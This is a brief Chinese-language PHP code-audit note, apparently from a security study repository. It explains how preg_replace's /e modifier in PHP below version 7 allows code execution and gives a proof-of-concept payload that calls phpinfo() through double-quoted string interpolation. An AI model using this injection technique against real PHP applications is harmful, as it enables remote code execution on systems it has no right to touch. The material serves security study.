 # preg_replace

## preg_replace

### 参考文章

- https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day8/files/README.md
- https://xz.aliyun.com/t/2557
- https://www.cnblogs.com/dhsx/p/4991983.html

### 利用条件

- PHP<7

### 函数结构

```
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed
```

### 利用

$pattern 存在`/e`模式修正符，允许代码执行。

#### 测试

测试代码

```php
<?php
var_dump(preg_replace('/(.*)/ie','strtolower("\1")','{${phpinfo()}}'));
?>
```

以上代码能执行除了`preg_replace`的`/e`修饰符可以执行代码外，还一个原因是strtolower函数使用了`""`。我们知道`""`内部是可以引用变量的。如：
```php
<?php
$a='asfd';
echo "$a";  #asf
```
